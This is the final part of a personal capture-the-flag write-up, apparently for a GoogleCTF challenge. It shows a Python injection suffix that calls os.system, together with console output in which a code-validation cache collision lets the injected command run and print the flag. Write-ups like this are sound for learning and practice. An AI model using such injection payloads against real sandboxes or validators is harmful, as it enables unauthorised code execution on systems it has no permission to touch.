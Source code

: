 
Executing it with suffix `'; __import__("os").system("/readflag")` gives the flag:

```
> "Q(3@U2WxwNlRepk.9-0"#o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW'; __import__("os").system("/readflag")
"Q(3@U2WxwNlRepk.9-0"#o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW'; __import__("os").system("/readflag")
Caching code validation result with key e22817c363df4090f20d84f400ef21fe
Waiting up to 10s for completion
'Q(3@U2WxwNlRepk.9-0'
> "Q(3@U2WxwNlRepk.9-0"'o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW'; __import__("os").system("/readflag")
"Q(3@U2WxwNlRepk.9-0"'o}N\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\ eCA(G>c     ,  wMYW'; __import__("os").system("/readflag")
Hit code validation result cache with key e22817c363df4090f20d84f400ef21fe
Waiting up to 10s for completion
'Q(3@U2WxwNlRepk.9-0o}N\\WN(N_A;9f/ i!-{:&7?;^B_$|-qp$xv@*Jw&@*khF|N`nIBt`Qh+_zkK0r(46cROJjd(J3D:zgxm@iD(U\\ eCA(G>c     ,  wMYW'
CTF{Ca$4_f0r_d3_C4cH3_Ha5hC1a5h}
```

...which I failed to copy over correctly from my second computer at 3:40 am (I got many failed flag submissions lol).

![image](https://hackmd.io/_uploads/B1fPkhLIR.png)

This was a very fun challenge that took me from 9:15 am to 3:40 am (nearly 18.5 hours!) to solve. I look forward to the next GoogleCTF!
